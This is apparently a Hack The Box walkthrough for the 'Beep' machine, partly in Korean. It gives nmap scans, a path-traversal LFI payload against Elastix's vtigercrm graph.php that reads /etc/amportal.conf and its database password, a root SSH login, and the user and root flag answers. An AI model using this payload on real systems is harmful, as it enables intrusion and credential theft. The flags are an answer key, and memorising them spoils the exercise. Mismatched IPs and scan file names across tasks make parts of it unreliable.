







# HTB Walkthrough - Beep

**Machine:** Beep  
**Target IP:** 10.129.229.183

---

## Task 1  
**Which Linux distribution is the target machine running?**

```
nmap -sV -sC -oA nmap/OpenAdmin 10.129.23.96

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
```


**Answer:** `CentOS`

---

## Task 2  
**What version of TLS is the web application on TCP port 443 using?**

```
nmap --script ssl-enum-ciphers -p 443 10.129.229.183
TLSv1.0
```


**Answer:** `1.0`

---

## Task 3  
**What is the name of the software that's hosting a webserver on 443?**

```
http-title: Elastix - Login page
```


**Answer:** `Elastix`

---

## Task 4  
**Which Elastix endpoint is vulnerable to a Local File Inclusion?**

- 브라우저가 TLS 1.0을 지원하지 않아 Firefox로 전환.
- `about:config` 에서 `security.tls.version.min` 값을 `3` → `1` 로 수정.
- 취약점 정보: https://www.exploit-db.com/exploits/37637


```
LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

**Answer:** `/vtigercrm/graph.php`

---

## Task 5  
**What is the name of the FreePBX configuration file that contains the database configuration?**

LFI로 `/etc/amportal.conf` 파일 접근 가능. 아래와 같은 정보가 노출됨:  


```
AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
AMPDBPASS=jEhdIekWmdjE
```

**Answer:** `amportal.conf`

---

## Task 6  
**What additional flag is needed when attempting to SSH as root to the target machine due to a "no matching key exchange method found" error?**

SSH 에러 발생:
```
Unable to negotiate with 10.129.67.153 port 22: no matching key exchange method found.
Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,...
```

SSH 접속 명령어 수정:
```
ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 root@10.129.67.153
```

**Answer:** `-oKexAlgorithms=+diffie-hellman-group14-sha1`  


---

## Submit User Flag  
**Location:** `/home/fanis/user.txt`  


```
cat /home/fanis/user.txt
c5b6bb43f6d2a1f1d84b698e0e32dcbf
```

**Answer:** `c5b6bb43f6d2a1f1d84b698e0e32dcbf`

---

## Submit Root Flag  
**Location:** `/root/root.txt`

```
cat /root/root.txt
18c457ee30e36677778fe36b29518c8d
```

**Answer:** `18c457ee30e36677778fe36b29518c8d`
